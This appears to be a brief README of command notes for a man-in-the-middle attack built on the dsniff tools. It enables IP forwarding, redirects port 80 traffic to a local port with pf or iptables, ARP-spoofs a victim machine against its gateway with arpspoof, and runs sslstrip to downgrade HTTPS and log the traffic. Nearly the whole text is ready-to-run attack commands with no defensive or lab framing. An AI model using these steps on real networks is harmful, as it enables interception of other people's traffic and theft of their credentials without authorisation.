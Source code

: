 # dsniff

## enable ports forward

on mac

	sudo sysctl -w net.inet.ip.forwarding=1
	sudo sysctl -w net.inet.ip.fw.enable=1
	sudo sysctl -w net.inet.fw.verbose=1
	sudo sysctl -w net.inet.ip.fw.verbose=1

on ubuntu

	vim /etc/sysctl.conf

change net.ipv4.ip_forward=0 to net.ipv4.ip_forward=1 

enable it

	sysctl -p

## port redirect

on mac <a href="https://developer.apple.com/library/mac/documentation/Darwin/Reference/ManPages/man5/pf.conf.5.html" >pf</a> 

	vim /etc/pf.conf

set configuration

	rdr on en0 proto { tcp, udp } from any to any port 80 -> 127.0.0.1 port 8000

enable it 

	pfctl -v -n -f /etc/pf.conf

on ubuntu <a href="https://help.ubuntu.com/community/IptablesHowTo">iptables</a>

enable iptables

	modprobe ip_tables

port redirect

	iptables -t nat -A PREROUTING -d *.*.*.* -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:8000

check

	iptables -t nat --list


delete

	iptables -t nat -D PREROUTING 1

## arp spoof

spoof machine with ip 192.168.0.49 on mac address of 192.168.0.1 by mac address of en0

	sudo arpspoof -i en0 -t 192.168.0.49 192.168.0.1

## ssl strip

	sslstrip -a -l 8000 -w sslstrip.log

